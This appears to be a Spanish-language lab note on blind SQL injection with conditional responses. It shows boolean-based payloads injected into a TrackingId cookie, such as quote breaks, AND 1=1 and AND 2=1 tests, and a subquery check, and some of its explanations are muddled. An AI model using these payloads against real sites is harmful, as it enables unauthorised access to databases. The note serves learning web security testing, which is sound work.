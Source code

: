 # ¿Qué es una Blind SQL | Inyección a ciegas?
A la hora de aplicar la query **que no se vea el error**

## Blind SQL - Injection with conditional responses

En base a lo que tu pongas algunos componentes pueden desaparecer, pero los datos no los vas a ver en la web

En este caso lo vamos a explotar en el valor de una cookie

Recomiendo utilizar **Burpsuite** 


````html
Cookie: TrackingId=F3uQfI06GsWBDMMy; session=bfNEMei3vCZyu84vqMjHZxUyWFViPbHK
````

![[Pasted image 20230125225841.png]]

En el campo TrackingId si insertamos una comilla simple al final no nos muestra el Welcome back!

````sql
Cookie: TrackingId=F3uQfI06GsWBDMMy'; 
````

![[Pasted image 20230125225930.png]]

En caso de que comentemos el resto, esto deja de funcionar y vuelve a mostrar el mensaje Welcome Back!
Esto estaría mal:
````sql
Cookie: TrackingId=F3uQfI06GsWBDMMy'-- -;
````

Y si probamos el típico 1=1;
````sql
Cookie: TrackingId=F3uQfI06GsWBDMMy' AND 1=1-- -;
````
Esto no funcionaría

En cambio si ponemos un resultado incorrecto, el mensaje vuelve a desaparecer:
````sql
Cookie: TrackingId=F3uQfI06GsWBDMMy' AND 2=1-- -;
````
![[Pasted image 20230125230351.png]]

**En caso de no querer comentar** podemos hacerlo de la siguiente manera:
````sql
Cookie: TrackingId=F3uQfI06GsWBDMMy' AND '1'='1';
````

Como sabemos que hay una comilla al final, esta nos va a cerrar nuestra propia query


Si queremos comprobarlo podemos hacer lo siguiente

````sql
Cookie: TrackingId=F3uQfI06GsWBDMMy' AND (select 'a')='a;
````
